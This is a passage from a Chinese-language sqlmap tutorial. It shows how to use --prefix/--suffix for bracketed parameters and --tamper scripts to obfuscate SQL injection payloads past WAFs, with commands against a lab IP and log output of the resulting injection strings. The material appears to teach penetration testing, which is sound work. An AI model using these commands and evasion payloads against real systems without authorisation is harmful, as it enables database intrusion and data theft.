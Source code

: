 ```
python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "’)" --suffix "AND (’abc’=’abc" 
```

这样执行的 SQL 语句变成：

```
$query = "SELECT * FROM users WHERE id=(’1’) <PAYLOAD> AND (’abc’=’abc’) LIMIT 0, 1"; 
```

### 修改注入的数据

参数：--tamper

sqlmap 除了使用 CHAR()函数来防止出现单引号之外没有对注入的数据修改，你可以使用--tamper 参数对数据做修改来绕过 WAF 等设备。

下面是一个 tamper 脚本的格式：

```
# Needed imports
from lib.core.enums import PRIORITY
# Define which is the order of application of tamper scripts against
# the payload
__priority__ = PRIORITY.NORMAL
def tamper(payload):
    '''
    Description of your tamper script
    '''
    retVal = payload
    # your code to tamper the original payload
    # return the tampered payload
    return retVal 
```

可以查看 tamper/ 目录下的有哪些可用的脚本

例如：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

[hh:mm:03] [DEBUG] cleaning up configuration parameters
[hh:mm:03] [INFO] loading tamper script 'between'
[hh:mm:03] [INFO] loading tamper script 'randomcase'
[hh:mm:03] [INFO] loading tamper script 'space2comment'
[...]
[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
[...]
[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONCAT(cHar(
58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/**/elsE/**/0/**/
ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/information_schema.tables/**/
group/**/bY/**/x)a)
[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING
clause' injectable
[...] 
```
